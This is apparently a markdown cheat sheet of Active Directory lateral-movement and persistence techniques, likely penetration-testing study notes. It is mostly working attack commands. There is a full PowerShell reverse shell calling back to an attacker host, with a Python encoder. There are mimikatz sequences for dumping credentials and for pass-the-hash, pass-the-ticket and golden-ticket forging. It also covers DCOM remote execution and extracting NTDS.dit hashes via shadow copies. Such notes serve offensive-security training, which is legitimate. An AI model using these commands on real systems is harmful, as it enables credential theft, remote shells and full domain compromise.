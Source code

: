 # Lateral movements in AD

## Techniques

### Windows Remote Management

#### WMI

Takes a local group `Administrators` account:

##### In `cmd`

Deprecated:
```
wmic /node:$TargetIp /user:somelocalAdminuser /password:somepass process call create "cmd"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName $VictimIP -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e somebase64string
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command};
```

For a PowerShell reverse shell (in Python, replace the IP and Port): 
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("AttackerIp",AttackerPort); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (iex $data 2>&1 | Out-String); $sendback2 = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

#### WinRM

##### In `cmd`: WinRS (Windows Remote Shell)
 
```
winrs -r:targethostname -u:user -p:pass  "powershell -nop -w hidden -e somebase64string"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName $VictimIp -Credential $credential

Enter-PSSession $winrm_session_number
```

### PsExec

Pre-requisites:
- user `targetuser` needs to be part of the `Administrators` local group
- the `ADMIN$` share must be available
- `File and Printer Sharing` has to be turned on

Uses Sysinternals: https://learn.microsoft.com/en-us/sysinternals/

```
kali $ rdesktop -u $firstUser $firstTargetIp
cmd > C:\path\to\PsExec64.exe -i  \\targethostname -u targetdomain\targetuser -p somepass cmd
> hostname
> whoami
```

### Pass the Hash

Same requisites as PsExec: an `ADMIN$` share available and `File and Printer sharing` enabled. And an SMB connection (usually port 445). \
Works with servers and services using NTLM authentication, but NOT with Kerberos authentication. \
Works for Active Directory domain accounts and the built-in local administrator account. Doesn't work for local admins.\
Impacket-Wmiexec on GitHub: https://github.com/fortra/impacket/blob/master/examples/smbclient.py
```
/usr/bin/impacket-wmiexec -hashes 00000000000000000000000000000000:somelonghashstring Administrator@$VictimIP
```

### Overpass the Hash

First, run a process as a different user with Shift-Right click, say Notepad, to cache this targeted user credentials. Then:
```
kali$ xfreerdp /cert-ignore /u:someuser /d:targetorg.com /p:somepass /v:somehostIp
PS > c:\path\to\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::pth /user:targetuser /domain:targetorg.com /ntlm:somentlmstring /run:powershell
PS2 > klist # check the cached tickets
PS2 > net use \\otherhostname
PS2 > klist # re-check the cached tickets
PS2 > cd c:\path\to\psexec
PS2 > .\PsExec.exe \\otherhostname cmd
cmd > whoami # targetuser
cmd > hostname # otherhostname
```

If the targeted user has access rights on other servers, the hash could allow to connect.

### Pass the Ticket

Context:
- attacker connected as user1 on host1
- user2 is connected on host1 and has access to resources on host2 \
Goal:
- steal user2's Ticket Granting Service (TGS) in memory and inject it in user1's session.
- then connect as user1 on host2 using user2's ticket or access the resources on host2

```
PS > whoami # user1
PS > ls \\host2\someshare # access denied
PS > c:\path\to\mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
PS > dir *.kirbi # file with the tickets
mimikatz # kerberos::ptt name_of_the_kirbi_file_with_user2_tickets.kirbi
PS > klist # lists the tickets, user2 should appear
PS > ls \\host2\someshare # access granted
```

### DCOM

In an elevated PowerShell:
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","$targetIpAddress")) # the IP address is the only parameter to modify
```
Usage to open a `calc` on the remote computer:
```
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc", "7") # parameters are Command, Directory, Parameters, and WindowState
```
Usage to launch a reverse PowerShell on the remote computer:
```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e base64longreverseshellstring", "7")
```
Reference: https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand

## Persistence

### Golden ticket

Kerberos service account: `krbtgt`
Mimikatz on GitHub:
- https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump
- https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos

Takes a Domain Admin account on the Domain Controller, or have compromised the Domain Controller:
```
SomeWorkstation c:\path\to\sysinternalsuite > .\PsExec64.exe \\TargetDomainController cmd.exe # access denied

DomainController c:\path\to\mimikatz > .\mimikatz.exe # on the Domain Controller, with a Domain Admin account
DC mimikatz # privilege::debug
DC mimikatz # lsadump::lsa /patch # search for the krbtgt service NTLM hash, and get the domain SID: S-1-5-21-x-y-z

SomeWorkstation c:\path\to\mimikatz > mimikatz.exe # on a workstation, with a random user account
SomeWorkstation mimikatz # kerberos::purge
SomeWorkstation mimikatz # kerberos::golden /user:targetrandomuser /domain:somedomainname.com /sid:S-1-5-21-x-y-z /krbtgt:NtlmHash /ptt
SomeWorkstation mimikatz # misc::cmd

SomeWorkstation c:\path\to\sysinternalsuite > .\PsExec64.exe \\TargetDomainController cmd.exe # access granted on the Domain Controller
DomainController c:\any\path > ipconfig
c:\any\path > whoami # targetrandomuser
c:\any\path > whoami /groups # expected "somedomainname\Domain Admins"

SomeWorkstation c:\path\to\sysinternalsuite > .\PsExec64.exe \\TargetDomainControllerIpAddress cmd.exe # access denied, the IP address triggers an NTLM authentication
```

Reference: https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don%27t-Get-It.pdf

### Shawdow copies

Connect as a Domain Admin on the Domain Controller.
Impacke-SecretDump on GitHub: https://github.com/fortra/impacket/blob/master/examples/secretsdump.py
```
c:\path\to\vshadow > .\vshadow.exe -nw -p c: # take note of the "Shadow copy device name"
> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\windows\ntds\ntds.dit c:\ntds.dit.bak
> reg.exe save hklm\system c:\system.bak

kali $ impacket-secretdump -ntds ntds.dit.bak -system system.bak LOCAL
```
Hashes can be cracked or used for PtH attacks.
